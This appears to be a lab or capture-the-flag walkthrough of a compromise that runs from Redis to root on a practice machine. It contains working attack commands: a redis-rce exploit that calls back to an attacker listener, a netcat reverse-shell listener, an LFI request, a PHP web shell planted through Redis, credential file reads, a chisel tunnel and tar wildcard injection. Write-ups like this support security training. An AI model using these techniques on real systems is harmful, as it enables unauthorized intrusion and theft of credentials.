 ```
redis-cli -h 192.168.159.166
```
Then to authenticate:
```
AUTH Ready4Redis?
```
![](../attachment/ad310239ce3bbf171a553df2b85baf4a.png)
We are in.

# Failed
The version is 5.0.14:
![](../attachment/fa205ac7aa97cabafd183653962c05f6.png)
Using this:
https://github.com/Ridter/redis-rce?source=post_page-----88a3e0e21f62--------------------------------

We can get a shell:
```
python3 redis-rce.py -r 192.168.159.166 -L 192.168.45.223 -a 'Ready4Redis?' -f exp.so
```
![](../attachment/755d68c05cd0473ed7fd26ef26de6a5e.png)

Then set up a listener:
```
rlwrap nc -nlvp 80
```
![](../attachment/c794eac06559f9845e8f43f543535541.png)
We get a shell

Now we can look for the wp-config file and get the database password:
```
cat /var/www/html/wp-config.php
```
![](../attachment/0516017352f6cf808506aabe45d357b2.png)

Checking netstat:
```
netstat -antup
```
![](../attachment/9ad6155ae8c39b435e9958a61c49edd7.png)
But could not execute anything so was a waste

**Can not proceed as we get a shell as redis user**
# Success

We can check the service files for redis using the LFI:
```
curl http://192.168.231.166/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/systemd/system/redis.service > redis.service
```
Now we can find the writeable directory:
![](../attachment/6fdd612e89e90dad5da2f664f2f02ce9.png)

Then write a shell.php:
```
redis-cli -h 192.168.231.166
```
```
AUTH Ready4Redis?
config set dir /opt/redis-files
config set dbfilename shell.php
set test '<?php system($_GET["cmd"]); ?>'
save
```
Now we have command execution:
![](../attachment/fa323c8d5bf249a69aa188049fab6fbb.png)
We can get a shell now:
![](../attachment/cfb4ad2d541f434c286ccd1aaf98a86c.png)

Now we can look for the wp-config file and get the database password:
```
cat /var/www/html/wp-config.php
```
![](../attachment/0516017352f6cf808506aabe45d357b2.png)
Port forwarding:
Target:
```
$P$Ba5uoSB5xsqZ5GFIbBnOkXA0ahSJnb0
```
Kali:
```
chisel server --reverse --socks5 -p 8001
 ```

But we don't find anything in database after logging in.

We find a cron job after running linpeas:
![](../attachment/7230ec2232bd14dddd97db109de0b011.png)

![](../attachment/d46eafcfbe57fe4536d4109f0fccfb86.png)

Now we have tar with `*` which we can use to gain sudo access:
```
cd /var/www/html
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh payload.sh'
nano payload.sh
chmod +x payload.sh
```
Now in payload.sh:
![](../attachment/3c0c8b5285d7120f1b4f0bc4136a1f49.png)
Now we get a shell in the listener:
```
sudo rlwrap nc -nlvp 80
```
![](../attachment/f6ab45306d77854fac8574e2472b0995.png)

